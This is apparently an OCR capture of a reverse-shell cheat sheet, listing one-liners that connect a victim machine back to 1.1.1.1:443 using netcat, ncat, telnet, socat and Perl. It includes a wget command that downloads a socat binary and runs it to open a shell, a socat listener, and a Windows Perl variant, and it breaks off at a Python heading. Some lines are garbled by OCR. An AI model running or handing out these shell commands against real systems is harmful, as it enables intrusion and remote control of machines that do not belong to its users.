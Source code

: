 `rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 1.1.1.1 443 > f`

`rm -f x; mknod x p && nc 1.1.1.1 443 0<x | /bin/bash 1>x`

### Ncat:

`ncat 1.1.1.1 443 -e /bin/bash`

`ncat --udp 1.1.1.1 443 -e /bin/bash`

### Telnet:

`rm -f /tmp/p; mknod /tmp/p p && telnet 1.1.1.1 443 0/tmp/p 2>&1`

`telnet 1.1.1.1 443 | /bin/bash | telnet 1.1.1.1 444`

`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 1.1.1.1 443 > f`

`rm -f x; mknod x p && telnet 1.1.1.1 443 0<x | /bin/bash 1>x`

### Socat:

### Victim:

`/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:443`

`socat tcp-connect:1.1.1.1:443 exec:"bash -li",pty,stderr,setsid,sigint,sane`

#### Listener:

`socat file:tty,raw,echo=0 TCP-L:443`

## Victim:

`wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:443`

## Perl:

### Victim:

`perl -e 'use Socket;$i="1.1.1.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

### Windows only, Victim:

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

# Python:
